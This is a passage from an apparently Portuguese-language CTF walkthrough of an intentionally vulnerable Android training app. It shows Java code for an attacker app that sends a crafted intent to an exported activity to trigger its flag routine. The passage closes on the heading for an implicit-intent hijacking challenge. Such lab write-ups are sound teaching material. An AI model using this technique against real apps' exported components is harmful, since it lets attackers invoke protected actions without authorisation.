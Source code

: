 Observe que quando a activity é chamada, ela verifica o intent recebido, extrai o valor presente na propriedade “action”, e compara com um valor. Nosso objetivo é chegar em success(this).

Portanto, para conseguirmos a flag, basta enviarmos um intent com a action “io.hextree.action.GIVE_FLAG”. Caso queira entender melhor sobre os intents, recomendo a [documentação](https://developer.android.com/guide/components/intents-filters) do Android.

Criando meu aplicativo malicioso em Java no Android Studio:

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        EdgeToEdge.enable(this);
        setContentView(R.layout.activity_main);

        Button buttonExploit = findViewById(R.id.button);
        buttonExploit.setOnClickListener(new View.OnClickListener() {
            @Override
            public void onClick(View v) {
                exploitActivity();
            }
        });
    }

    private void exploitActivity() {
        Log.i("EXPLOIT", "Sending intent");

        Intent intent = new Intent();
        intent.setClassName("io.hextree.attacksurface",
                "io.hextree.attacksurface.activities.Flag2Activity");
        intent.setAction("io.hextree.action.GIVE_FLAG");

        startActivity(intent);
    }
}
```

Note que existe um botão que quando acionado vai enviar o intent.

![image.png](/images/intents/image%202.png)

Clicando em exploit, conseguimos a flag!

![image.png](/images/intents/image%203.png)

Repare que o aplicativo mostra o formato do intent que ele recebeu, o que ajuda a debuggar e resolver o desafio.

## Flag 10 - Hijack implicit intent with the flag

Seguindo, temos a flag 10. Repare que dessa vez a activity não está exportada; nesse caso não faz diferença por conta da técnica de exploração.

